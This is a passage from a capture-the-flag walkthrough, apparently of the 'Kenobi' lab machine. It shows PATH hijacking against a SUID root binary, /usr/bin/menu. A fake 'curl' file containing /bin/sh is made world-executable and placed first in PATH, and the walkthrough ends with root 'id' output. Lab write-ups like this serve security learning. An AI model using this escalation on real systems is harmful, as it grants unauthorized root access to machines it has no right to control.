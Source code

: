 1\. status check

2\. kernel version

3\. ifconfig

\*\* Enter your choice :

* strings command searches for human readable strings on a binary.

**2. Run strings against \`/usr/bin/menu/'.**

* Binary is running without a full path.
  * E.g. not using /usr/bin/curl or /usr/bin/uname.

strings /usr/bin/menu

\[...snip...]

curl -I localhost

uname -r

ifconfig

\[...snip...]

* Binary runs with root privileges.

ls -la /usr/bin/menu

\-rwsr-xr-x 1 root root 8880 Sep 4 2019 /usr/bin/menu

**3. Manipulate PATH to gain Root Shell.**

* Copy /bin/sh shell and call it curl.

echo /bin/sh > curl

* Give new binary the correct permissions.

chmod 777 curl

* Put new binary's location in PATH.

export PATH=/home/kenobi:$PATH

* \`/usr/bin/menu\` binary now uses path variable to find \`curl\` binary.
  * \`curl\` is copy of \`/usr/sh\`.
* Shell runs as root as \`/usr/bin/menu\` binary runs as root.

/usr/bin/menu

1. status check
2. kernel version
3. ifconfig \*\* Enter your choice :1

id

uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
